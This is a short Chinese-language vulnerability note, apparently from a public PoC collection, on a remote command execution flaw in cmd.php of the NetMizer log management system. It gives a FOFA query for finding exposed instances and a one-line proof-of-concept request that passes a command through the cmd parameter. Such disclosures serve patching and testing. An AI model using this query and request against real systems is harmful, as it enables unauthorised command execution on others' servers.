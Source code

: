 # NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

## 漏洞描述

NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

## 漏洞影响

```
NetMizer 日志管理系统
```

## FOFA

```
title="NetMizer 日志管理系统"
```

## 漏洞复现

登录页面

![image-20220519175506872](./images/202205191755197.png)

验证POC

```
/data/manage/cmd.php?cmd=id
```

![image-20220519175604237](./images/202205191756275.png)